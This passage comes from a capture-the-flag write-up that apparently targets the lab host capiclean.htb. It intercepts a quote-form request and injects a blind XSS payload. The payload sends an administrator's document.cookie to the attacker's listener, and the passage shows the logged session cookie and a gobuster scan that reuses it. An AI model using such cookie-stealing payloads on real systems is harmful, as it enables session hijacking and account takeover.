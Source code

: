 Use **BurpSuite** to intercept the request and see what is happening : 

```bash
POST /sendMessage HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/quote
Upgrade-Insecure-Requests: 1

service=Tile+%26+Grout&email=random%40gmail.com
```

We could try to change ``service`` field and see the response but nothing.

The message gives a hint : 
```text
Your quote request was sent to our management team. They will reach out soon via email. Thank you for the interest you have shown in our services.
```

Maybe we could be able to execute code when an administrator will read our request.
Let's try this ! 

To start, I will use a simple payload like this  : 
```bash
<img src=x onerror=this.src='http://{YOUR-IP}:{PORT}/?c='+document.cookie>
```

Wait ~30 seconds and... 
```bash
10.10.11.12 - - [13/Apr/2024 20:51:06] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhrBWw.LQ7bfijdzg10JhSZRFmUakq7yZ0 HTTP/1.1" 200 -
10.10.11.12 - - [13/Apr/2024 20:51:06] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhrBWw.LQ7bfijdzg10JhSZRFmUakq7yZ0 HTTP/1.1" 200 -
10.10.11.12 - - [13/Apr/2024 20:51:06] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhrBWw.LQ7bfijdzg10JhSZRFmUakq7yZ0 HTTP/1.1" 200 -
10.10.11.12 - - [13/Apr/2024 20:51:06] "GET /?c=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZhrBWw.LQ7bfijdzg10JhSZRFmUakq7yZ0 HTTP/1.1" 200 -
```

... we have a cookie ! 

### Going deeper 

We can use **Gobuster** a second time with our new cookie : 
```bash
gobuster dir --url http://capiclean.htb/ -w /opt/seclists/Discovery/Web-Content/big.txt -x html,php,txt --cookies 'session={COOKIE}'
```
